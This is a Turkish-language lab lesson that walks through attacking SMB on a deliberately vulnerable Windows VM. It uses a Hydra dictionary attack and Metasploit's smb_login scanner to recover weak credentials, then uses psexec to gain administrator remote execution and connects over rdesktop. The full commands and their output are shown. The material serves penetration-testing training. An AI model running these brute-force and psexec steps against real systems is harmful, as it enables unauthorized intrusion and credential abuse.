 # SMB’ye Dictionary Attack+Exploit Uygulaması

Lesson Date: November 22, 2024
Status: Complete
Text: SMB protokülüne uygulanan dictionary ve exploit saldırısı anlatılacaktır.
Type: Lesson

## SMB’ye Dictionary Attack + Exploit

---

### **1. SMB (Server Message Block) Nedir?**

**SMB (Server Message Block)**, ağ üzerinden dosya paylaşımı ve ağ üzerindeki kaynaklara erişim için kullanılan bir protokoldür. Windows işletim sistemlerinde yaygın olarak kullanılan bu protokol, dosya erişiminden başka, bilgisayarlar arasında iletişim ve kimlik doğrulama gibi işlemleri de gerçekleştirir. SMB, genellikle ağdaki bilgisayarlar arasında veri paylaşımı yapmak ve uzak bilgisayara erişmek için kullanılır.

- **Temel Kullanım Alanları**:
    - Dosya paylaşımı (örneğin, ağ üzerindeki paylaşılan klasörlere erişim)
    - Uzak sistemde komut çalıştırma
    - Kimlik doğrulama (authentication) ve yetkilendirme (authorization)
    
    ## Hydra İle Metasploit-win32x makinesinde Kullanıcı Adı ve Şifre Tespiti
    
    *user.txt ve pass.txt dosyaları, makine üzerinde olası değerleri içerecek şekilde yerel olarak oluşturulmuştur.
    
    ### **Hydra Komutunun Anlamı:**
    
    **Komut**:
    
    ```bash
    
    hydra -L users.txt -P pass.txt 10.10.10.19 smb
    
    ```
    
    - **`-L users.txt`**: **users.txt** dosyasındaki kullanıcı adlarını denemek için kullanılır.
    - **`-P pass.txt`**: **pass.txt** dosyasındaki şifreleri denemek için kullanılır.
    - **`10.10.10.19`**: Saldırının hedef aldığı IP adresi.
    - **`smb`**: SMB protokolü üzerinde deneme yapacağımızı belirtir.
    

![Screenshot_2024-11-22_18_58_34.png](img/Screenshot_2024-11-22_18_58_34.png)

Hydra, **10.10.10.19** IP adresindeki SMB servisine bağlanarak **iki geçerli kullanıcı adı ve şifre kombinasyonu** bulmuştur:

- **Kullanıcı adı: vagrant**, **Şifre: vagrant**
- **Kullanıcı adı: administrator**, **Şifre: vagrant**

## Msfconsole ile SMB’ye Dictionary Attack+Exploit

 **1. SMB Login Açığının Tespiti**

Metasploit'e girdikten sonra, SMB ile ilgili açıkları araştırmak için aşağıdaki komutu kullanıyoruz:

```bash

search smb_login
```

Bu komut, SMB login açığını tespit edebileceğimiz modülleri aramamıza yardımcı olur. Çıkan sonuçlar arasında **`auxiliary`** ve **`SMB Login Check Scanner`** modüllerini içeren kısmı seçiyoruz.

- **1.1 smb_login Nedir?**
    
    **smb_login** modülü, Metasploit Framework'ünde, SMB servisi üzerinde zayıf kimlik doğrulama (login) bilgilerini bulmaya yönelik kullanılan bir araçtır. Bu modül, belirli bir hedefte SMB servisine kimlik doğrulama yapılırken doğru kullanıcı adı ve şifre kombinasyonlarını keşfetmek amacıyla kullanılır. Bu sayede, hedef makineye giriş yapmak için doğru kullanıcı adı ve şifreyi bulabiliriz.
    
    - **Kullanım Amacı**:
        - SMB servisi üzerinden giriş yapmak için zayıf veya varsayılan şifreler tespit edilmesi.
        - Hedef makinelerdeki SMB servislerinde açığı olan kullanıcı adı ve şifre kombinasyonlarını bulmak.
    
1. **Metasploit'te Kullanımı**:
    
    ```bash
    
    use auxiliary/scanner/smb/smb_login
    set RHOSTS [hedef_ip]
    set SMBUSERNAME [kullanıcı_adı]
    set SMBPASS [parola]
    exploit
    
    ```
    

Bu komutlarla, hedef makinelerdeki SMB servisine login olmayı deneyebiliriz ve başarılı kombinasyonları öğrenebiliriz.

1. **Modül Seçimi**

İlgili modülün ID numarasını bulup, o modülü kullanmak için “**use [ID]"** komutunu giriyoruz. 

![Screenshot_2024-11-22_19_10_03.png](img/Screenshot_2024-11-22_19_10_03.png)

1. **Gerekli Parametrelerin Girilmesi**
    
    Bu modülü çalıştırmadan önce, gerekli parametreleri giriyoruz. Örneğin:
    
    - **RHOSTS**: Hedef makinelerin IP adresi veya ağ aralığı.
    - **SMBUSERNAME**: Kullanıcı adı.
    - **SMBPASS**: Parola.
    
    Ayrıca, daha ayrıntılı bilgi almak için **`verbose`** parametresini **`true`** olarak ayarlıyoruz:
    
    ```bash
    
    set RHOSTS 10.10.10.19
    set SMBUSERNAME vagrant
    set SMBPASS vagrant
    set VERBOSE true
    
    ```
    

![Screenshot_2024-11-22_19_10_10.png](img/Screenshot_2024-11-22_19_10_10.png)

1. **Açıkların Tespiti**
    
    Komutu çalıştırdıktan sonra, aşağıdaki gibi bir çıktı alırız:
    
    ```bash
    
    [+] Found valid SMB credentials:
        administrator:vagrant
        vagrant:vagrant
    ```
    
    Burada, **administrator** ve **vagrant** kullanıcı adları ve şifreleri tespit edilmiştir.
    

![Screenshot_2024-11-22_19_10_18.png](img/Screenshot_2024-11-22_19_10_18.png)

1. **Exploit İşlemi**
    
    Şimdi, tespit edilen bu açıkları kullanarak sisteme sızmak için SMB üzerinden exploit işlemi yapacağız. Bunun için **`smb/psexec`** modülünü arıyoruz:
    
    ```bash
    
    search smb/psexec
    ```
    
    ![Screenshot_2024-11-22_19_10_29.png](img/Screenshot_2024-11-22_19_10_29.png)
    
    - **smb_psexec Nedir?**
        
        **smb_psexec** modülü, Metasploit Framework'ünde SMB üzerinden uzak bir Windows sistemine uzaktan komut çalıştırmak amacıyla kullanılan bir exploit modülüdür. Bu modül, SMB protokolünü kullanarak, kullanıcı adı ve şifre doğru olduğunda, uzak Windows bilgisayarında belirli komutları çalıştırmamıza olanak tanır. "PsExec" komutu, Windows'ta uzaktan komut çalıştırmak için kullanılan bir araçtır ve Metasploit, bu aracı kullanarak hedef sistemde uzaktan işlem yapabilir.
        
        - **Kullanım Amacı**:
            - Hedef sistemde uzaktan komut çalıştırmak (örneğin, shell almak, dosya yüklemek, vb.)
            - SMB servisi üzerinden uzaktan komut çalıştırma yeteneği kullanılarak sistem üzerinde tam kontrol sağlamak.
        - **Metasploit'te Kullanımı**:
            
            ```bash
            
            use exploit/windows/smb/psexec
            set RHOSTS [hedef_ip]
            set SMBUSERNAME [kullanıcı_adı]
            set SMBPASS [parola]
            exploit
            ```
            
        
        Bu modül, doğru kimlik bilgileri sağlandığında, hedef Windows sisteminde yönetici haklarıyla (Admin Privileges) komut çalıştırmak ve uzaktan erişim sağlamak için kullanılır
        
    
2. **Gerekli Değerlerin Girilmesi**
    
    Exploit işlemi için tespit ettiğimiz kullanıcı adı ve şifreyi giriyoruz:
    
    ```bash
    
    set RHOSTS [hedef_ip]
    set SMBUSERNAME vagrant
    set SMBPASS vagrant
    
    ```
    
3. **Exploit’i Çalıştırma**
    
    Tüm değerleri girdikten sonra exploit işlemini başlatıyoruz:
    
    ```bash
    
    exploit
    ```
    
    Bu komutla, sisteme giriş yapmış oluruz.
    

---

![Screenshot_2024-11-22_19_10_37.png](img/Screenshot_2024-11-22_19_10_37.png)

### **Rdesktop ile Windows Makinesine Bağlantı Kurma ve Görüntü Erişimi Sağlama**

**rdesktop** kullanarak, doğru kullanıcı adı, şifre ve hedef makinenin IP adresini vererek uzak Windows makinesine bağlanabilirsiniz. Bağlantıyı kurmak için şu komutu kullanabilirsiniz: **`rdesktop -u <kullanıcı_adı> -p <şifre> <IP_adresi>`**.

Bu komut ile makinemiz lokal makinemizde pencere olarak açılır ve hedef makine üzerinde işlemler gerçekleştirebiliriz.

![Screenshot_2024-11-22_20_56_13.png](img/Screenshot_2024-11-22_20_56_13.png)